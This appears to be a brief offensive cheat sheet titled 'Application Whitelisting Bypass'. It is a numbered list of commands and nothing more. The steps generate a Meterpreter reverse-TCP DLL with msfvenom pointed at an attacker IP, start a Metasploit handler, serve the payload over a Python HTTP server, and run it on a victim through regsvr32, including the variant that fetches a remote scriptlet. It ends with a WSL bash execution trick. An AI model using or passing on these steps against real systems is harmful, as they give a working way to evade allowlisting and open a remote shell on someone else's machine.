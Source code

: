 # Application Whitelisting Bypass

### Tools: regsvr32, Bash

# REGSVR32

#### 1) 

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACK_IP LPORT=PORT -f dll -a x86 > example.dll

#### 2) 

    msfconsole -q

#### 3) 

    use exploit/multi/handler

#### 4) 

    set payload windows/meterpreter/reverse_tcp

#### 5) 

    set LHOST IP

#### 6) 

    set LPORT PORT

#### 7) 

    exploit

#### 8) 

    python3 -m http.server PORT 

#### 9) Victim: 

    regsvr32.exe c:\path\to\example.dll 
    
#### OR 

    regsvr32.exe /s /n /u /i:http://example.com/file.sct Downloads\example.dll

## BASH 

     bash -c calc.exe (Require Windows Subsystem Linux (WSL) to use bash)
